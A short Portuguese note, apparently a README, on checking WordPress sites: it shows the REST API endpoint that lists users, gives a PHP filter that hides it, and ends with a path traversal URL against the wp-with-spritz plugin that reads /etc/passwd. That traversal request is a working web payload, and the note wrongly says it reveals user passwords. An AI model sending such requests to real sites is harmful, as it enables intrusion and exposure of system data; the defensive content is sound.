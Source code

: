 # Como testar a vulnerablidade de um site wordpress:

fonte: https://www.ti-enxame.com/pt/security/wordpress-4.7.1-rest-api-ainda-expondo-usuarios/961954884/

Dados sensiveis exposto:

https://dominios.x.x/wp-json/wp/v2/users

Resolução:

Use este trecho de código para esconder a lista de usuários e dar 404 como resultado, enquanto o resto das chamadas de api continuarão funcionando como estavam.

Acessar o arquivo 'functions.php' no Wordpress e adicinar o seguinte codigo:

add_filter( 'rest_endpoints', function( $endpoints ){
    if ( isset( $endpoints['/wp/v2/users'] ) ) {
        unset( $endpoints['/wp/v2/users'] );
    }
    if ( isset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] ) ) {
        unset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] );
    }
    return $endpoints;
});


# Como testar vulnerabilidade do servidor web:

Descobrir possivel versão do servidor web e senha de usuarios:

https://dominio.x.x//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd



